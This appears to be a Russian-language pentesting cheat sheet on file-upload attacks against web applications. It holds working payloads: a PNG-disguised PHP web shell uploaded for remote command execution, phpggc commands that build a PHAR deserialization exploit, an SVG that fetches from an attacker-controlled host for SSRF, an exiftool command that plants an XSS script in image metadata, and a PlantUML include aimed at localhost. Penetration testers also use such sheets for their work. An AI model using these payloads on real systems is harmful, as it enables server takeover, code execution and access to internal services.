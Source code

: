# Example: Upload File

## Upload -> RCE

Веб-приложение может проверять файл только по Content-Type\
Веб-приложение позволяет изменить фото в профиле пользователя, но при этом не проверяет должным образом обновленные изображения, в результате чего вместо загрузки фото можно загрузить php-файл и удаленно исполнить команду на сервере.

Пример: Запрос на загрузку файла: \
`Content-Disposition: form-data; name="file"; filename="image.php"` \
`Content-Type: image/png`\
``\
`%PNG .... IEND .. <?php system($_GET['blabla]); ?> -----------------WebKitFormBoundaryNJKDFNAJCNA`\


В ответ: \
`HTTP/1.1 200 OK`\
``\
`{"path": "/some/path/crooped.php", "error": 0}`

Следующий запрос: \
`GET /some/path/crooped.php?blabla=dir+C:\`

Получаем RCE :)

## Upload PHAR -> RCE

PHAR - это сериализованный или упакованный PHP код?

Проблема с php rce — надо чтобы скрипт заканчивался на .php

Однако, если у нас есть возможность заставить сервак обратиться по схеме phar:// к локальному файлу, который мы контролируем, то это может привести к исполнению кода

Пример: загружаем exploit.jpg, как аватар, который является PHAR-файлом

```
git clone https://github.com/ambionics/phpggc
$ cd ./phpggc
$ wget https://upload.wikimedia.org/wikipedia/en/a/a9/Example.jpg
$ ./phpggc -pj Example.jpg ZendFramework/RCE3 system 'ls -lah' > exploit.jpg
```

Теперь, если есть SSRF, например, то6 при обращении к `phar:///var/www/example.com/data/upload/image/exploit.jpg` исполнится наш код.

## SVG -> SSRF

```markup
<svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200"> 
<image height="30" width="30" 
xlink:href="https://controlledserver.com/pic.svg" /> 
</svg>
```

## XSS Payload -> Image (PNG)

```
exiftool -Comment="\"><script>alert(prompt('Payload for XSS'))</script>" xss_comment_exif_metadata_double_quote.png
```

## UML -> SSRF

UML диаграммы могут поддерживать инклуд других файлов, в том числе с удаленных сервисов

Например:

```
@startuml
!include http://127.0.0.1:80
%load_json('http://localhost')
@enduml
```
